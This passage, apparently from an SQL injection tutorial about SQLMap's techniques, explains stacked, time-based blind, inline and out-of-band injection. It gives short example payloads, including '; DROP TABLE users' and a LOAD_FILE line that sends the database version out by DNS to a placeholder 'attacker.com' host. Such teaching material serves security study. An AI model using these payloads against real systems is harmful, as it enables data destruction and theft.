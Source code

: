 With UNION, it is generally possible to extend the results. The attacker can get additional results from the injected statements within the page response itself. This type of SQLi is considered the fastest, as, in the ideal scenario it's possible to pull the content of the whole database table with a single request.

### Stacked Queries

Example:
```sql
; DROP TABLE users
```

Stacking SQL queries, also known as the "piggy-backing", is the form of injecting additional SQL statements after the vulnerable one. In case there is a requirement for running non-query statements (e.g. `INSERT`, `UPDATE` or `DELETE`), stacking must be supported by the vulnerable platform (e.g., `Microsoft SQL Server` and `PostgreSQL` support it by default). SQLMap can use it to run non-query statements executed in advanced features (e.g., execution of OS commands) and data retrieval similarly to time-based blind SQLi injection types.

### Time-based Blind SQL Injection

Example:
```sql
AND 1=IF(2>1,SLEEP(5),0)
```

The principle is similar to Boolean-based, but here the response time is used as the source of differentiation between TRUE or FALSE.

- `TRUE` response is generally characterized by the noticeable difference in the response time compared to the regular server response
    
- `FALSE` response should result in a response time indistinguishable from regular response times

This is considered slower then Boolean-based, since queries resulting in TRUE will delay the server response. This is used when Boolean-based isn't applicable. For example when the vulnerable SQL statement is a non-query (e.g. `INSERT`, `UPDATE` or `DELETE`), executed as part of the auxiliary functionality without any effect to the page rendering process.

### Inline Queries

Example:
```sql
SELECT (SELECT @@version) from
```

This type of injection embedded a query within the original query. Such type of SQLi is uncommon, since the vulnerable web app should be written in a certain way. Still SQLMap supports it.

### Out-of-band SQL Injection

Example:
```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

This is considered one of the most advanced types of SQLi, used in cases where all other types are unsupported by the web app or are too slow. SQLMap supports out-of-band SQLi through "DNS exfiltration", where requested queries are retrieved through DNS traffic.
